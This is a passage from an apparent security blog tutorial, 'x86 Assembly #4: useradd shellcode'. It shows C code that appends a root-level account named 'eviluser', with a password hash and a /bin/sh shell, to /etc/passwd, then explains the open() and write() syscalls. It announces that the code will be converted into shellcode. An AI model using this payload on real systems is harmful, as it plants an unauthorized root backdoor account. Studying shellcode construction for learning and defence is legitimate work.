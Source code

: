 ```yaml
---
layout: post
title:	"x86 Assembly #4: useradd shellcode"
date:	2019-06-24 00:00:00
categories:
    - blog
tags:
    - linux
    - nasm
    - x86
    - objdump
    - ld
    - shellcode
---
```

## Introduction
Today we're going to write some shellcode,which adds new user to a linux OS. Our plan is following:
 - `C` code which adds new user.
   - Explain `open()` and `write()` syscalls
 - `asm` code which adds new user.
 - Convert assembly code into `opcode` bytes which fits in shellcode format.



## useradd.c
{% highlight C %}
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>

int main()
{
        int fd;
        char *newuser = "eviluser:$1$xyz$qpXht651W6vzmblmv2oKj/:0:0::/dev/null:/bin/sh\n";
        fd = open("/etc/passwd", O_WRONLY | O_APPEND);
        write(fd, newuser, strlen(newuser));
        close(fd);
}
{% endhighlight %}

`fd` variable holds `/etc/passwd` file descriptor. We call two functions: `open()` and `write()`. Their prototypes are:
~~~
int open(const char *pathname, int flags);
ssize_t write(int fd, const void *buf, size_t count);
~~~
`open` syscall takes 2 parameters: <br>
        - pathname: file to open <br>
        - flags: mode in which files are going to be opened <br>
`write` syscall takes 3 parameters: <br>
        - fd: integer value returned from `open()` syscall <br>
        - buf: pointer value that points to buffer,which is gonna be written to destination file <br>
        - count: how many bytes to write <br>
